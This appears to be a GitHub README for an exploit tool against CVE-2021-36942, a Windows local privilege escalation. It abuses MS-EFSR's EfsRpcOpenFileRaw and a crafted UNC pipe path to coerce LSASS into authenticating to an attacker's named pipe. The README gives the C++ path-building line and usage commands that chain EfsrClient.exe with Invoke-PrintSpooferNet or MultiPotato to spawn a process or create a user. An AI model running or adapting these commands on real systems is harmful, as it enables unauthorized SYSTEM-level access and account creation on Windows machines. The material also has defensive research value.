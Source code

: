 # Efsr-Client (CVE-2021-36942) 

Local privilege escalation method which forces LSASS.exe process to perform NTLM authentication using the MS-EFSR's EfsRpcOpenFileRaw method.
* By default LSASS.exe takes the UNC host device name and makes a `CreateFile` operation to the `\\<host>\pipe\srvsvc` UNC path.
* This is exploited by supplying a UNC host device of with forwarded slashes (`\\127.0.0.1/pipe/packet`).  
* The default `CreateFile` operation is changed from  `\\127.0.0.1\pipe\srvsvc` to `\\127.0.0.1\pipe\packet\pipe\srvsvc`. 

The `/pipe/packet` can be modified to change the pipe location.  
```c++
StringCchPrintf(pwszFilePath, MAX_PATH, L"\\\\127.0.0.1/pipe/AABB\\pipe\\srvsvc");
```

Invoke-PrintSpooferNet.ps1 can be used as a listener (Works, but crashes process). 
```ps1
ImportModule Invoke-PrintSpooferNet.ps1
Invoke-PrintSpooferNet -Pipe '\\.\pipe\AABB\pipe\srvsvc' -Command 'calc.exe' -Method 'CreateProcessWithTokenW'
```

[MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)

```cmd
MultiPotato.exe -t CreateUser -p AABB\pipe\srvsvc
EfsrClient.exe
```

## References
* [Prepending UNC](https://twitter.com/tifkin_/status/1418855927575302144/photo/1)
* [PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/)
